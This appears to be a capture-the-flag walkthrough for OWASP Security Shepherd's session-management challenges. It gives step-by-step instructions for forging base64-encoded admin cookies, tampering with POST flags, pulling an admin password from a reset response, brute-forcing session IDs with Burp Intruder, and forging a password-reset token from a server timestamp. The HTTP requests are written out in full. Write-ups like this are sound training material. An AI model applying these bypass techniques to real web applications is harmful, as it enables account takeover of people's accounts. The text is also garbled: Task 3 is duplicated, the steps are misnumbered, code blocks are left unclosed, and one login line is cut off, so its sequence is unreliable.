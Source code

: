 # OWASP Security Shepherd  Session Management 

This guide will walk you through five different web-based challenges that involve manipulating cookies, brute-forcing encoded values, and intercepting HTTP requests.

---

## **Task 1: Bypassing Admin Access with Modified Cookies**
**Objective:** Gain admin access to retrieve the key.

### **Steps:**
1. **Decode the `SubSessionID` Cookie:**
   - The `SubSessionID` is base64-encoded **twice**.
   - Decode it twice to reveal `guest12`.

2. **Replace `current` Cookie with Admin:**
   - Encode `administrator` in base64 once.
   - Replace `current` cookie with the encoded value.

3. **Modify POST Request Data:**
   - Change:
     ```
     adminDetected=false&returnPassword=false&upgradeUserToAdmin=false
     ```
   - To:
     ```
     adminDetected=true&returnPassword=true&upgradeUserToAdmin=true
     ```

4. **Send the modified request** to gain access.

---

## **Task 2: Extracting Admin Credentials via Password Reset**
**Objective:** Retrieve the admin password from a reset response.

### **Steps:**
1. **Find Admin Email:**
   - Enter `admin` in the login form.
   - The response contains `zoidberg22@shepherd.com`.

2. **Trigger Password Reset:**
   - Request a password reset for `zoidberg22@shepherd.com`.

3. **Extract New Password from Response:**
   - The response contains:  
     ```
     Changed To: -49189122767280649395999113217915861064
     ```
   - This is the new password.

4. **Login** :)

---

## **Task 3: Resetting Password via Cookie Manipulation**
**Objective:** Change admin password by modifying session cookies.

### **Steps:**
5. **Modify Password via the Toggle User Functionality:**
- Send the following POST request:
  ```http
  POST /challenges/t193c6634f049bcf65cdcac72269eeac25dbb2a6887bdb38873e57d0ef447bc3 HTTP/1.1
  Host: webserver
  Cookie: current=WjNWbGMzUXhNZz09; ...
  
  subUserName=admin&subUserPassword=123456789
```

1. **Change `current` Cookie to Admin:**
- Encode `admin` in base64 **twice**.
- Replace the `current` cookie with the encoded value.

2. **Login with:**

---

## **Task 3: Resetting Password via Cookie Manipulation**
**Objective:** Change admin password by modifying session cookies.

### **Steps:**

1. **Modify Password via the Toggle User Functionality:**
- Send the following POST request:
  ```http
  POST /challenges/t193c6634f049bcf65cdcac72269eeac25dbb2a6887bdb38873e57d0ef447bc3 HTTP/1.1
  Host: webserver
  Cookie: current=WjNWbGMzUXhNZz09; ...
  
  subUserName=admin&subUserPassword=123456789
```

2. **Change `current` Cookie to Admin:**
- Encode `admin` in base64 **twice**.
- Replace the `current` cookie with the encoded value.

1. **Login :)

---

## **Task 4: Bypassing Security with Brute-Force Attack**
**Objective:** Bypass admin security using Burp Suite Intruder.

### **Steps:**

2. **Identify the Authentication Mechanism:**
- The page uses `SubSessionID` for validation, **not** `userId`.

3. **Brute Force `SubSessionID`:**
- Use **Burp Suite Intruder** with these settings:
  - **Payload:** Numerical (16 digits)
  - **Min Integer Digits:** 16
  - **Max Integer Digits:** 16
  - **Payload Processing:** Encode with base64 **twice**.

4. **Check Responses:**
- One request will return a success message containing the key.

---

## **Task 5: Resetting Password via Token Exploitation**
**Objective:** Generate a valid token to reset the admin password.

### **Steps:**

5. **Intercept the Password Reset Request:**
   - Capture the following request in Burp Suite or another intercepting proxy:
     ```http
     POST /challenges/7aed58f3a00087d56c844ed9474c671f8999680556c127a19ee79fa5d7a132e1SendToken HTTP/1.1
     Host: webserver
     Cookie: current=WjNWbGMzUXhNZz09; ...
     
     subUserName=admin
```

6. **Extract the Server Timestamp from the Response:**
   - The response will contain a timestamp. Copy this value.

7. **Format the Timestamp Correctly:**
   - Convert the extracted timestamp into the following format:
     ```
     Day(3 chars) Month(3 chars) Day HH:MM:SS GMT Year
     ```
   - Example:
     ```
     Tue Feb 06 12:34:56 GMT 2025
     ```

8. **Encode the Formatted Timestamp:**
   - Encode the formatted timestamp in **Base64** **twice**.
   - This will be your `resetPasswordToken`.

9. **Send a Request to Change the Password:**
   - Modify the original request by changing `SendToken` to `ChangePass`.
   - Include the newly generated `resetPasswordToken`:
     ```http
     POST /challenges/7aed58f3a00087d56c844ed9474c671f8999680556c127a19ee79fa5d7a132e1ChangePass HTTP/1.1
     Host: webserver
     Cookie: current=WjNWbGMzUXhNZz09; ...
     
     userName=admin&newPassword=adminadminadmin&resetPasswordToken=*your token*
```

10. **Login with the New Password :)
